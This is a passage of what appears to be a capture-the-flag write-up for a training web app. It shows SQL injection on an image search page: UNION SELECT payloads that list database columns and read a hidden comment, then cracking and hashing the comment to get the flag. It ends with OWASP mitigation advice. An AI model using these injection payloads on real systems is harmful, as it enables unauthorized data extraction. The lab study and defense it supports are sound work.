



## Exploit

If we study the image upload section, we can see that it leads to a query string with our input as parameter.  
As we did with the members section, let's use a script to display what we can about stored images:

```
[darkly@darkly] ~/10-sql_injection_file_search # python3 find_all_files.py
ID: 1
Title: Nsa
Url : https://www.nsa.org/img.jpg
ID: 2
Title: 42 !
Url : https://www.42.fr/42.png
ID: 3
Title: Google
Url : https://www.google.fr/google.png
ID: 4
Title: Obama
Url : https://www.obama.org/obama.jpg
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
ID: 6
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

We'll want to look more closely at the image with id 5.
First, let's find the proper table and its columns, by entering:

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

which yields, amidst information on all tables:



So we can now focus our search on the image we identified previously , by entering:

```
5 UNION SELECT title, comment FROM list_images WHERE id=5
```



Crack the string provided in the comment:



And hash the result as instructed:

```
[darkly@darkly] ~ # echo -n albatroz | sha256sum
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

# Mitigating the risk

As detailed in the [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html), it is recommended to:

- Use prepared statements in parametrized queries or stored procedures
- Whitelist input validation to reject unwanted patterns
